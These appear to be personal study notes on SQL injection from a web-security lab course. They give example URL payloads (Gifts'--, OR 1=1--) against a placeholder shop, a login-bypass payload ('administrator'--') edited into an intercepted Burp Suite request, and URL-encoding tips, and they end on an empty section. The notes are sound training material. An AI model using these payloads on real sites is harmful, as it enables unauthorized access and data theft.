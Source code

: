 # SQL injection

## Example 1

https://insecure-website.com/products?category=Gifts

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

https://insecure-website.com/products?category=Gifts'--

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

https://insecure-website.com/products?category=Gifts%27+OR+1=1--

## URL decoding

- Single quote **'**: %27 `encodeURIComponent` does **NOT** encode single quote
- Double qoute **"**: %22
- space: + or %20

## Lab 2: SQL injection vulnerability allowing login bypass

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

-- bypass the password
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

Login as administrator, with any password.

From Burp Suite, intercept POST request

```
// From
csrf=nc1SgyYgCJsHaE3oyFvpZYV6vw0s4dAG&username=administrator&password=password
// To
csrf=nc1SgyYgCJsHaE3oyFvpZYV6vw0s4dAG&username=administrator'--&password=password
```

## Retrieving data from other database tables

```sql
```
